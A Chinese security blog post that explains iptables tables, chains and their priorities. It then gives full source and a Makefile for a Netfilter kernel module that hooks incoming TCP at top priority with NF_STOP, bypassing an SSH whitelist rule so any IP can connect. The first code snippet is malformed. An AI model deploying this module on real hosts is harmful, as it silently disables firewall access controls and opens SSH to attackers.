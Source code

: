 ```yaml
---
layout: post
title: "Netfilter and Iptables：netfilter模块绕过iptables规则"
date: 2020-09-08 
description: "netfilter模块绕过iptables规则"
tag: Linux攻防
---   
```


### iptables 介绍及技术原理
![](/imag/20200908/1.png)
![](/imag/20200908/2.png)
![](/imag/20200908/3.png)
优先级次序（由高而低）：

raw --> mangle --> nat --> filter

------------------------------------------------------------------------------------
filter      表：负责过滤功能，防火墙；内核模块：iptables_filter

nat        表：network address translation，网络地址转换功能；内核模块：iptable_nat

mangle 表：拆解报文，做出修改，并重新封装 的功能；iptable_mangle

raw       表：关闭nat表上启用的连接追踪机制；iptable_raw

------------------------------------------------------------------------------------
PREROUTING      的规则可以存在于：raw表，mangle表，nat表。

INPUT                   的规则可以存在于：mangle表，filter表，（centos7中还有nat表，
centos6中没有）。
FORWARD           的规则可以存在于：mangle表，filter表。

OUTPUT               的规则可以存在于：raw表mangle表，nat表，filter表。

POSTROUTING   的规则可以存在于：mangle表，nat表。

------------------------------------------------------------------------------------
raw        表中的规则可以被哪些链使用：PREROUTING，OUTPUT

mangle  表中的规则可以被哪些链使用：PREROUTING，INPUT，FORWARD，OUTPUT，POSTROUTING

nat         表中的规则可以被哪些链使用：PREROUTING，OUTPUT，POSTROUTING（centos7中还有INPUT，centos6中没有）

filter       表中的规则可以被哪些链使用：INPUT，FORWARD，OUTPUT

------------------------------------------------------------------------------------
### 我们可以将数据包通过防火墙的流程总结为下图：

![](/imag/20200908/4.png)
 如何绕过iptables规则？

有如下场景：

centos7主机限制了ssh的22端口的登录，只能由特定的ip登录

iptables规则如下：

首先在INPUT链中丢弃了所有通往22端口的tcp包

iptables -I INPUT -p tcp --dport 22 -j DROP

然后设置白名单，只允许某一特定ip通过

iptables -I INPUT -s 192.168.71.1 -p tcp --dport 22 -j ACCEPT


从上面的命令中我们可以分析出，INPUT链中新添加了两条规则，拒绝所有的包以及设置白名单，-I参数表示插入，后面的白名单规则的优先级会高于前面的规则，所以iptables会首先放行来自192.168.71.1的TCP包，而来自其它ip的通往22端口的tcp包则会被另一条规则drop掉，从而达到22端口限制ip登录的功能。

接下来我们编写Netfilter模块，绕过iptables规则，使得任意ip都可以登录ssh

iptables的 INPUT 链对应 Netfilter 的HOOK点为 NF_INET_LOCAL_IN，iptables -I INPUT -s 192.168.71.1 -p tcp --dport 22 -j ACCEPT 这条规则就相当于使用netfilter 在NF_INET_LOCAL_IN hook点注册了一个回调函数，这个函数只允许该ip的数据包通过，iptables的源码其实也是这么做的

所以我们的 nf_hook_ops 结构体将像下面这样初始化：

    static struct nf_hook_ops anyssh_ops = {
        /* Fill in our hook structure */
        nfho.hook     = hook_func;
        /* Handler function */
        nfho.hooknum  = NF_INET_LOCAL_IN;
        nfho.pf       = PF_INET;
        nfho.priority = NF_IP_PRI_FIRST;   /* Make our func first */
    }
hook回调函数：

我们过滤了tcp数据包，并且将所有的tcp包都返回 NF_STOP

NF_STOP表示报文通过了某个钩子函数的处理，后面的钩子函数你们就不要处理了，谁让你的优先级低呢，我就可以替你做主。假设NF_INET_LOCAL_IN中注册了两个钩子函数hook1和hook2，hook1的优先级高于hook2，hook2设定的处理结果是NF_DROP。如果hook1设定的处理结果是NF_ACCEPT，那么报文就不会递交给应用程序，因为hook2会把报文丢弃掉。如果hook1设定的处理结果是NF_STOP，那么报文就会提交给应用程序，因为hook1放行了，根本不会给hook2处理的机会。这个机制只在一个HOOK点的函数链中生效。也就是说iptables规则假设所处于的链为INPUT，则netfiler hook函数必须处于NF_INET_LOCAL_IN。

这么做的原因就是为了让iptables的规则失效，由于我们设置了 nfho.priority = NF_IP_PRI_FIRST; 我们的hook函数在INPUT这个链中处于最高优先级，只要直接返回NF_STOP，就没有后面iptbales什么事了，也就达到了任意ip都可以登录ssh的目的。

    unsigned int hook_func(unsigned int hooknum,
                        struct sk_buff *skb,
                        const struct net_device *in,
                        const struct net_device *out,
                        int (*okfn)(struct sk_buff *))
    {
        struct iphdr *ip1 = NULL;
        if (!skb){
            return NF_ACCEPT;
        }
        ip1 = ip_hdr(skb);
        if (NULL != ip1){
            if (IPPROTO_TCP == ip1->protocol){
                printk("tcp,STOP\n");
                return NF_STOP;
            }
        }else{
            printk("null!\n"); 
        }
        return NF_ACCEPT;
    }

#### 完整代码：

any_ssh.c

    #include <linux/module.h>
    #include <linux/kernel.h>
    #include <linux/skbuff.h>
    #include <linux/ip.h>                  /* For IP header */
    #include <linux/netfilter.h>
    #include <linux/netfilter_ipv4.h>


    static struct nf_hook_ops nfho;


    unsigned int hook_func(unsigned int hooknum,
                        struct sk_buff *skb,
                        const struct net_device *in,
                        const struct net_device *out,
                        int (*okfn)(struct sk_buff *))
    {
        struct iphdr *ip1 = NULL;
        if (!skb){
            return NF_ACCEPT;
        }
        ip1 = ip_hdr(skb);
        if (NULL != ip1){
            if (IPPROTO_TCP == ip1->protocol){
                printk("tcp,drop\n");
                //return NF_DROP;
                return NF_STOP;
            }
        }else{
            printk("null!\n"); 
        }
        return NF_ACCEPT;
    }


    int init_module()
    {
        /* Fill in our hook structure */
        nfho.hook     = hook_func;
        /* Handler function */
        //nfho.hooknum  = NF_INET_PRE_ROUTING; /* First for IPv4 */
        nfho.hooknum  = NF_INET_LOCAL_IN;
        nfho.pf       = PF_INET;
        nfho.priority = NF_IP_PRI_FIRST;   /* Make our func first */
        printk("init_module,filter_tcp\n");
        nf_register_hook(&nfho);


        return 0;
    }


    /* Cleanup routine */
    void cleanup_module()
    {
        printk("cleanup_module,filter_tcp\n");
        nf_unregister_hook(&nfho);
    }



Makefile

    MODULE_NAME:=filter_tcp
    ifneq ($(KERNELRELEASE),)
    mymodule-objs:=${MODULE_NAME}.o
    obj-m:=${MODULE_NAME}.o
    else
    PWD:=$(shell pwd)
    KVER:=$(shell uname -r)


    KDIR:=/lib/modules/$(shell uname -r)/build
    all:
        $(MAKE) -C $(KDIR) M=$(PWD)
    #clean:
        @rm -rf .*.com *.o *.mod.c  .tmp_versions modules.order Module.symvers
    install:
        echo ${KDIR}
        @insmod ${MODULE_NAME}.ko
    uninstall:
        @rmmod ${MODULE_NAME}.ko
    endif


### 转载请注明出处

安全编程交流：NzgyNDIxODg3


